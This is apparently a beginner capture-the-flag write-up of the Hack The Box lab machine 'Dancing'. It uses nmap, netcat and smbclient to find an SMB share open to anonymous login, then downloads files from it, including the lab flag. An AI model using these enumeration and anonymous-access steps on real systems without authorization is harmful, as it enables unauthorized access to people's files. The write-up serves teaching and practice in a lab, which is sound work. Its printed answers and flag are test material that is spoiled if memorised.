 # Dancing From Hack The Box

By Herman Detwiler

[Back](/Hack-The-Box#hack-the-box-write-ups)
## Tags

- Windows

## Settup

1. Connect to the Hack The Box Starting Point VPN
2. Spawn Dancing
3. Copy machine ip and set to an env variable

```bash
export ip=10.129.113.234
```

# Tasks

## 1.)  What does the 3-letter acronym SMB stand for? 


From Google:

*The Server Message Block protocol (SMB protocol) is a client-server communication protocol used for sharing access to files, printers, serial ports and other resources on a network. It can also carry transaction protocols for interprocess communication.*

The answer is `Server Message Block`

## 2.) What port dose SMB use to operate at?

From [Techtarget](https://www.techtarget.com/searchnetworking/definition/Server-Message-Block-Protocol)

*The SMB protocol operates at the application layer but relies on lower network levels for transport. At one time, SMB ran on top of Network Basic Input/Output System over Transmission Control Protocol/Internet Protocol (NetBIOS over TCP/IP, or NBT) or, to a lesser degree, legacy protocols such as Internetwork Packet Exchange or NetBIOS Extended User Interface. When SMB was using NBT, it relied on ports 137, 138 and 139 for transport. Now, SMB runs directly over TCP/IP and uses port 445.*

The ansswer is `445`

## 3.)  What is the service name for port 445 that came up in our Nmap scan? 

To perform a service scan of just port 445 with nmap:

```bash
sudo nmap -sC -sV -p 445 $ip
```

```bash
Nmap scan report for 10.129.113.234
Host is up (0.055s latency).

PORT    STATE SERVICE       VERSION
445/tcp open  microsoft-ds?

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-06-23T18:38:09
|_  start_date: N/A
|_clock-skew: 3h59m33s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.46 seconds

```

To verify microsoft-ds I can run a netcat banner grab to see what the service responds with:

```bash
nc -zn $ip 445
```
```
(UNKNOWN) [10.129.113.234] 445 (microsoft-ds) open

```

The answer is `microsoft-ds`

## 4.)  What is the 'flag' or 'switch' we can use with the SMB tool to 'list' the contents of the share? 


From `man smbclient`:

```
  -L|--list
           This option allows you to look at what services are available on a server. You use it as smbclient -L
           host and a list should appear. The -I option may be useful if your NetBIOS names don't match your
           TCP/IP DNS host names or if you are trying to reach a host on another network.


```

Making the answer `-L`


## 5.)  What is the name of the share we are able to access in the end with a blank password? 

To login with a username of Anonymous and a blank password with smbclient:

```bash
smbclient -L $ip -U Anonymous -N
```

```
─$ smbclient -L $ip -U Anonymous -N                                                                            1 ⨯

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.113.234 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

```

The name of the share is `WorkShare`


## 6.)  What is the command we can use within the SMB shell to download the files we find? 


From the help command from within smb, `get`



## 7.) Get the root flag

To connect to the Share I can access (Workshares)

```bash
smbclient //$ip/workshares -U Anonymous -N

```
Then, I can list directories and files with the `ls` command, and `cd` to enter into directories I want to explore. When I see files I want to exfiltrate I can use the `get` command.

```bash
└─$ smbclient //$ip/workshares -U Anonymous -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Jun 23 14:48:58 2022
  ..                                  D        0  Thu Jun 23 14:48:58 2022
  Amy.J                               D        0  Mon Mar 29 05:08:24 2021
  James.P                             D        0  Thu Jun  3 04:38:03 2021

                5114111 blocks of size 4096. 1752071 blocks available
smb: \> cd Amy.J\
smb: \Amy.J\> ls
  .                                   D        0  Mon Mar 29 05:08:24 2021
  ..                                  D        0  Mon Mar 29 05:08:24 2021
  worknotes.txt                       A       94  Fri Mar 26 07:00:37 2021

                5114111 blocks of size 4096. 1752071 blocks available
smb: \Amy.J\> get worknotes.txt 
getting file \Amy.J\worknotes.txt of size 94 as worknotes.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
smb: \Amy.J\> cd ..
smb: \> cd James.P\
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 04:38:03 2021
  ..                                  D        0  Thu Jun  3 04:38:03 2021
  flag.txt                            A       32  Mon Mar 29 05:26:57 2021

                5114111 blocks of size 4096. 1752071 blocks available
smb: \James.P\> get flag.txt 
getting file \James.P\flag.txt of size 32 as flag.txt (0.1 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \James.P\> quit

```

Then I can view these file locally with the `cat` command locally:

```bash
└─$ cat worknotes.txt                         
- start apache server on the linux machine
- secure the ftp server
- setup winrm on dancing                                                                                                                                                                                                                                              

```

```bash
└─$ cat flag.txt     
5f61c10dffbc77a704d76016a22f1664                                                                                                                                                                                                                                             

```

Giving me the root flag
